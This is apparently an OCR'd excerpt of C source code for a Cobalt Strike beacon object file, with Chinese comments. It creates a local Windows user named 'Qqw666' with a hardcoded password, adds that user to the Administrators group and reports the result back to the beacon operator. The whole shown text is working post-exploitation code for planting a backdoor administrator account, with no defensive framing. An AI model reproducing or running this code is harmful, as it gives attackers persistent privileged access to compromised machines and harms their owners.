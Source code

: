 ```C

  UserInfo.usri1_name = L"Qqw666";            
  UserInfo.usri1_password = L"Qqw@#123";      
  UserInfo.usri1_priv = USER_PRIV_USER;
  UserInfo.usri1_home_dir = NULL;
  UserInfo.usri1_comment = NULL;
  UserInfo.usri1_flags = UF_SCRIPT;
  UserInfo.usri1_script_path = NULL;

  NET_API_STATUS nStatus;

  //创建用户 
  // https://learn.microsoft.com/zh-cn/windows/win32/api/lmaccess/nf-lmaccess-netuseradd?redirectedfrom=MSDN
  nStatus = NETAPI32$NetUserAdd(
    NULL, //local server
    1,    // information level
    (LPBYTE)&UserInfo,
    NULL // error value
    );
  if (nStatus == NERR_Success) {
    BeaconPrintf(CALLBACK_OUTPUT, "NetUserAdd Success!\n", NULL);
    BeaconPrintf(CALLBACK_OUTPUT, "Username: %ws, PassWord: %ws", UserInfo.usri1_name, UserInfo.usri1_password);
  }
  else {
    BeaconPrintf(CALLBACK_OUTPUT, "NetUserAdd Failed! %d", nStatus);
  }

  // 添加用户到管理员组
  // https://learn.microsoft.com/zh-cn/windows/win32/api/lmaccess/nf-lmaccess-netlocalgroupaddmembers?redirectedfrom=MSDN
  LOCALGROUP_MEMBERS_INFO_3 account;
  account.lgrmi3_domainandname = UserInfo.usri1_name;

  NET_API_STATUS aStatus;

  aStatus = NETAPI32$NetLocalGroupAddMembers(NULL, L"Administrators", 3, (LPBYTE)&account, 1);
  if (aStatus == NERR_Success) {
    BeaconPrintf(CALLBACK_OUTPUT, "Add to Administrators success!", NULL);
  }
  else {
    BeaconPrintf(CALLBACK_OUTPUT, "Add to Administrators failed!", NULL);
  }

}
#else

void main(int argc, char* argv[]) {
  go();
}

#endif
```
